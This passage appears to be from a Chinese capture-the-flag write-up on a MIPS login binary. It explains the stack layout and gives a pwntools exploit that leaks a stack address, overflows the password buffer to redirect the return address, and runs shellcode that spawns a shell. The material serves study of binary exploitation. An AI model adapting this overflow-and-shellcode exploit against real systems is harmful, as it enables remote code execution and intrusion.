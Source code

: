 ```python
    print("<usage: python exp (your choice)>")
    exit(0)

p.recvuntil(b"Username : ")
p.send(b"admin".ljust(24, b"a"))
p.recvuntil((24-len(b"admin"))*b'a')
print(p.recv())
p.close()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660811360234-c774ca67-67e5-4803-8bfc-917e1690bcef.png)

![返回地址为0x400B90](https://cdn.nlark.com/yuque/0/2022/png/574026/1660811315474-5e4be68d-8949-4082-a1f7-52f710e77a4d.png)

根据栈帧平衡，`getUsername`与`checkPassword`的返回地址与栈底地址所处的位置相同：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660613067232-8e0c6b76-ea01-42bd-b808-6d25756a33f7.png)

所以shellcode的地址为0x7FFFEFB0。exp如下：

```python
from pwn import *
import sys
context.arch = "mips"
context.endian = 'little'
context.log_level = 'debug'

try: 
  if(sys.argv[1] == "g"):
      p = process(["qemu-mipsel-static", "-g", "1234", "-L", "./", "./Mplogin"])
  elif(sys.argv[1] == "l"):
      p = process(["qemu-mipsel-static", "-L", "./", "./Mplogin"])
  else:
    raise(Exception)
except:
    print("<usage: python exp (your choice)>")
    exit(0)

p.recvuntil(b"Username : ")
p.send(b"admin".ljust(24, b"a"))
p.recvuntil((24-len(b"admin"))*b'a')
leak_addr = (u32(p.recv(4)))
log.info("leak addr is {}".format(hex(leak_addr)))

p.recvuntil(b"Pre_Password : ")
p.send(b'access'+b'a'*14+p32(0x100))
p.recvuntil("Password : ")
p.send(b"0123456789".ljust(40, b"b")+p32(leak_addr)+asm(shellcraft.sh()))		# 将返回地址更改为leak_addr
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660811475498-db13bea0-bf89-49c0-a36e-f58ca508ffde.png)
